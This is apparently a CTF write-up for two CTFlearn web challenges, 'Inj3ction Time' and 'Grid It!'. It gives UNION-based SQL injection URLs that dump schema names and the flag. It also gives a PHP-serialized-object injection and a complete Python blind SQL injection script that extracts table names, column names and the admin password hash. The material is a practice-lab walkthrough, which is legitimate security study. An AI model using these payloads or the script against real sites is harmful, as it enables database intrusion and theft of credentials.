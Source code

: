 # CTF SR 23.4.30.md

## CTFlearn Inj3ction Time

I stumbled upon this website: <http://web.ctflearn.com/web8/> and I think they have the flag in their somewhere. UNION might be a helpful command
  
`https://web.ctflearn.com/web8/?id=1`  
`https://web.ctflearn.com/web8/?id=1 order by 4`  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(schema_name),2,3,4 from information_schema.schemata`  
got information_schema,webeight  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema=database()`  
got w0w_y0u_f0und_m3,webeight  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema=database()`  
got f0und_m3,breed,name,color,id  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema=database() and table_name="w0w_y0u_f0und_m3"`  
没有结果，可能是过滤了引号，但是基本可以确定 f0und_m3 字段位于 w0w_y0u_f0und_m3  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(f0und_m3),2,3,4 from w0w_y0u_f0und_m3`  
abctf{uni0n_1s_4_gr34t_c0mm4nd}  

## CTFlearn Grid It!

Can you bypass the security measures on the site and find the flag? I doubt it. <http://web.ctflearn.com/grid>  

try delete a point

```http
GET /grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:7:"3036224";}
```

### serialize

(PHP 4, PHP 5, PHP 7, PHP 8)

serialize — Generates a storable representation of a value

### Description

serialize(mixed $value): string
Generates a storable representation of a value.

This is useful for storing or passing PHP values around without losing their type and structure.

To make the serialized string into a PHP value again, use unserialize().
> <https://www.php.net/manual/en/function.serialize.php>

Booleans `b:<i>;` where `<i>` is an integer with a value of either 0 (false) or 1 (true).  
Integers `i:<i>;` where `<i>` is the integer value.  
Floats `d:<f>;` where `<f>` is the float value.  
Strings `s:<i>:"<s>";`  
Objects are serialized as:
`O:<i>:"<s>":<i>:{<properties>}`  
`<properties>` are zero or more serialized name value pairs:

> <https://stackoverflow.com/questions/14297926/structure-of-a-serialized-php-string>
<https://www.phpinternalsbook.com/php5/classes_objects/serialization.html>

so `O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:7:"3036224";}` ->

```txt
point
(
    [x] => 1
    [y] => 1
    [ID] => 3036224
)
```

try a simple SQL injection:

```http
GET /grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:12:"3036224 OR 1";}
```

all points were deleted. 说明 ID 字段存在 SQL 注入，无回显使用盲注。  

<https://github.com/terjanq/Flag-Capture/tree/master/Practice/CTFLearn/GridIt#grid-it---write-up-by-terjanq>

```py
import requests, urllib, re, sys

url_base = "http://web.ctflearn.com/grid/controller.php"
url_login= url_base+"?action=login"
url_debug= url_base+"?action=debug"
url_delete= url_base+"?action=delete_point&point="
url_addpoint = url_base+"?action=add_point"

sessid = requests.Session()

payload_base = 'O:5:"point":1:{s:2:"ID";s:@LENGTH@:"@QUERY@";};'
init_array = []
sillent = False
fancy_console = False

ASCIIAlphabet = "\001 !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
simpleAlphabet = "\001abcdefghijklmnopqrstuvwxyz"
HEXAlphabet = "\0010123456789abcdef"
advancedAlphabet= "\0010123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz"

admin_hash_payload = "@ID@ AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
tables_payload = "@ID@ AND Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_user_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'user' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_point_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'point' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"

def printInPlace(alert):
    if fancy_console:
        sys.stdout.write("{}{}".format(alert, "\b"*len(alert)))
        sys.stdout.flush();
    return fancy_console

def isLogged():
    debug = sessid.get(url_debug)
    i = debug.text.find("[user]")
    return False if i==-1 else True

def createPayload( query ):
    return payload_base.replace("@LENGTH@", str(len(query))).replace("@QUERY@", query)

def sendPayload ( query ):
    if sillent == False: print ("exec: WHERE ID= {}".format(query))
    payload = createPayload(query)
    delete = sessid.get(url_delete+payload)
    return findIDs(delete.text)

def logIn(login_info):
    print ("loggin in: ", login_info)
    sessid.post(url_login, data=login_info, allow_redirects=False)
    return

def findIDs(text):
    regex = re.compile(r"ID:\s(\d{6})")
    matches = regex.findall(text)
    return matches

def addPoints():
    alert = "      [[Adding points]]"
    if printInPlace(alert) == False and sillent == False: 
        print("[[Adding points]]")
    for x in range(1, 30):
        point = {'x': 0, 'y': 0}
        sessid.post(url_addpoint, data=point, allow_redirects=False)
    printInPlace(" "*len(alert))
    return

def tryPayload(str):
    global init_array
    if(len(init_array) <= 1):
        addPoints()
        init_array = sendPayload("1")
    oldLen = len(init_array)
    init_array = sendPayload(str)
    return oldLen != len(init_array)

#bin-search ASCII inside [alphabet]
def findName(payload, alphabet):
    a = 0
    b = len(alphabet)-1
    while (a < b):
        mid = (a+b)//2
        c = alphabet[mid]
        printInPlace(c)
        if tryPayload(payload
            .replace("@cORD@", str(ord(c)))
            .replace("@ID@", str(init_array[0]))
            ): a = mid + 1
        else:
            b = mid
    return alphabet[a]


def findNames(payload, alphabet):
    for result_offset in range(0, 10):
        result = ""
        pl = payload.replace("@rOFFSET@", str(result_offset))
        for word_offset in range(1, 40):
            pl2 = pl.replace("@wOFFSET@", str(word_offset))
            c = findName(pl2, alphabet)
            if c == alphabet[0]: break
            sys.stdout.write(c)
            sys.stdout.flush
            result+=c
        print(" ")
        if len(result) <= 1: break
    return


def findTables():
    print ("..:: Searching for table names ::..")
    findNames(tables_payload, advancedAlphabet)

def findUserColumns():
    print ("..:: Searching for column names in user ::..")
    findNames(columns_user_payload, advancedAlphabet)

def findPointColumns():
    print ("..:: Searching for column names in point::..")
    findNames(columns_point_payload, advancedAlphabet)


def findAdminHash():
    print ("..:: Searching for Admin hash ::..")
    findNames(admin_hash_payload, HEXAlphabet)


def deletePoints():
    sendPayload("1 OR 1")
    exit(0)



fancy_console = True # Turn on fancy terminal output
sillent = True # Turn off debugging mode
logIn({'uname': 'writeup', 'pass': 'writeup'})


if isLogged():
    print("Sucessfully logged in")
else:
    exit("Unsuccessful login!")


#deletePoints();
#addPoints();
init_array = sendPayload("1");

findTables();
findPointColumns();
findUserColumns();
findAdminHash();
```
